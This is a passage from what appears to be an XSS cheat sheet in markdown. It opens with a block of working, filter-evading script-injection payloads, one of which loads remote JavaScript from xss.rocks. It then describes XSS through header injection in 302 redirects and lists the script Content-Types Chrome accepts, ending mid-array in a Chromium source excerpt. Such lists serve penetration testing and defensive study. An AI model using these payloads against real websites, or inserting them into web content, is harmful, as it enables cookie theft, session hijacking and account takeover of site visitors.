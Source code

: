 ```html
</style></scRipt><scRipt>alert(1)</scRipt>
<img src=x:prompt(eval(alt)) onerror=eval(src) alt=String.fromCharCode(88,83,83)>
<svg><x><script>alert('1'&#41</x>
<iframe src=""/srcdoc='<svg onload=alert(1)>'>
<svg><animate onbegin=alert() attributeName=x></svg>
<img/id="alert('XSS')\"/alt=\"/\"src=\"/\"onerror=eval(id)>
<img src=1 onerror="s=document.createElement('script');s.src='http://xss.rocks/xss.js';document.body.appendChild(s);">
(function(x){this[x+`ert`](1)})`al`
window[`al`+/e/[`ex`+`ec`]`e`+`rt`](2)
document['default'+'View'][`\u0061lert`](3)
```

### XSS with header injection in a 302 response

If you find that you can **inject headers in a 302 Redirect response** you could try to **make the browser execute arbitrary JavaScript**. This is **not trivial** as modern browsers do not interpret the HTTP response body if the HTTP response status code is a 302, so just a cross-site scripting payload is useless.

In [**this report**](https://www.gremwell.com/firefox-xss-302) and [**this one**](https://www.hahwul.com/2020/10/03/forcing-http-redirect-xss/) you can read how you can test several protocols inside the Location header and see if any of them allows the browser to inspect and execute the XSS payload inside the body.\
Past known protocols: `mailto://`, `//x:1/`, `ws://`, `wss://`, _empty Location header_, `resource://`.

### Only Letters, Numbers and Dots

If you are able to indicate the **callback** that javascript is going to **execute** limited to those chars. [**Read this section of this post**](#javascript-function) to find how to abuse this behaviour.

### Valid `<script>` Content-Types to XSS

(From [**here**](https://blog.huli.tw/2022/04/24/en/how-much-do-you-know-about-script-type/)) If you try to load a script with a **content-type** such as `application/octet-stream`, Chrome will throw following error:

> Refused to execute script from ‘[https://uploader.c.hc.lc/uploads/xxx'](https://uploader.c.hc.lc/uploads/xxx') because its MIME type (‘application/octet-stream’) is not executable, and strict MIME type checking is enabled.

The only **Content-Type**s that will support Chrome to run a **loaded script** are the ones inside the const **`kSupportedJavascriptTypes`** from [https://chromium.googlesource.com/chromium/src.git/+/refs/tags/103.0.5012.1/third_party/blink/common/mime_util/mime_util.cc](https://chromium.googlesource.com/chromium/src.git/+/refs/tags/103.0.5012.1/third_party/blink/common/mime_util/mime_util.cc)

```c
const char* const kSupportedJavascriptTypes[] = {
    "application/ecmascript",
    "application/javascript",
    "application/x-ecmascript",
    "application/x-javascript",
    "text/ecmascript",
    "text/javascript",
    "text/javascript1.0",
    "text/javascript1.1",
    "text/javascript1.2",
    "text/javascript1.3",
    "text/javascript1.4",
    "text/javascript1.5",
    "text/jscript",
    "text/livescript",
    "text/x-ecmascript",
    "text/x-javascript",
```